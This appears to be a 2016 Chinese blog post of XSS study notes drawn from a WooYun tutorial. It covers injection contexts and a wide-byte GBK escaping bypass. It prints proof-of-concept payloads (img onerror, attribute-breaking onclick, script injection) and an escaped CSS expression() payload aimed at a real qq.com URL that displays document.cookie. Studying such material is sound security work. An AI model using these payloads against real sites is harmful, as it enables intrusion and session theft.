```yaml
---
title: XSS学习笔记3
time: 2016.02.03 10:47:00
layout: post
catalog: true
tags:
- 信息安全
- Web
- XSS
excerpt: 学习心伤的瘦子的乌云XSS教程，通过例子，实例学习XSS。
    


---
```


### 0x01无过滤，输出在标签外
XSS的存在，必须涉及输入和输出。

也因此，过滤XSS一般在输入层或输出层过滤

对于没有任何过滤的，我们只要构造恶意代码前，将<,>""闭合即可。

这种漏洞的一般模型：


	<HTML标签></HTML标签>
	[输出]
	<HTML标签></HTML标签>
	
	或
	
	<HTML标签>[输出]</HTML标签>


payload：
​	
	<img src=1 onerror=alert(1);>
在JS中，若遇到没有过滤的情况：

模型：
​	
	<script>...[输出]...</script>

	<style>...[输出]...</script>

一般payload可以为：
​	
	/><script>alert(1);</script>
	eval('alert(1)');void
![示例](http://wooyun.org/upload/201212/13142159aee108c1178a955e6f282cf1452a48ee.jpg)

---

### 0x02输出在标签内
比如：
​	
	<input value="输出"> 、 <img onload="...[输出]..."> ，<body style="...[输出]..."> 

一种典型的例子就是：

	http://xxxx.com/search.php?word=test
	源码：<input type="text" value="test" />
对于上面的例子，如果没有过滤"，我们就可以构造下面这个payload

	test" onclick="alert(1)"
	输入后，源码变成：
	<input type="text" value="test" onclick＝"alert(1)"/>
这样就能xss
但是，大多数网站会对"进行过滤编码，编码成
​	
	&quot;
这样我们先前对利用代码就失效了。

还一种例子是，当输出在
​	
	<body style="[here]">
时，如
![image](http://wooyun.org/upload/201212/13152306bb005590e7b2859f5b157234729f5c32.jpg)

此时，就算代码过滤了“，但若其没有过滤\，我们就可以利用css编码＋expression来构造利用语句了。（如e可以编码成\65 \065 \000065）

其源码：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=我是一个兵,爱国爱人民&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx

构造后：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=;w:expr\65ssion\28%20eval\28\27\69\66\28\21\77\69\6e\64\6f\77\2e\78\29\7b\61\6c\65\72\74\28\64\6f\63\75\6d\65\6e\74\2e\63\6f\6f\6b\69\65\29\3b\77\69\6e\64\6f\77\2e\78\3d\31\7d\27\29\29&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx

便能成功弹出窗口。（注，现在只能在IE6、7下触发，其他浏览器都修复了这个bug）


还一个典型例子：

	<HTML标签 onXXXX="...[输出在这里].."> 的例子。

	<a href="javascript:[输出在这里]">xxxx </a> 的例子。

这个输出点可以执行js代码，我们一般会构造<script>[输出]</script>。但，若其被过滤，则没有非常好的方法。不过，有时我们可以考虑通过HTML实体编码来绕过。（这个例子具体参考：[link](http://wooyun.org/bugs/wooyun-2010-015963)）

---

### 0x03 宽子节绕过
宽字节一般用于sql注入，这里也可以用来绕过一些XSS过滤器。
宽字节的详细介绍可以参考：[https://www.91ri.org/8611.html](https://www.91ri.org/8611.html)
简略讲就是：对于％df％5c，％5c是\符号，GBK编码，它的编码范围是0x8140~0xFEFE（不包括xx7F），在遇到%df(ascii(223)) >ascii(128)时系统会自动拼接%5c，因此吃掉‘\’，而%27、%20小于ascii(128)的字符就保留了。注意：gb2312是不能吃掉％5c的，即\
具体例子可参考：[link](http://wooyun.org/bugs/wooyun-2010-015969)

---

### 参考
1. [http://wooyun.org/bugs/wooyun-2010-015959](http://wooyun.org/bugs/wooyun-2010-015959)
2. [http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1](http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1)
3. https://www.91ri.org/8611.html
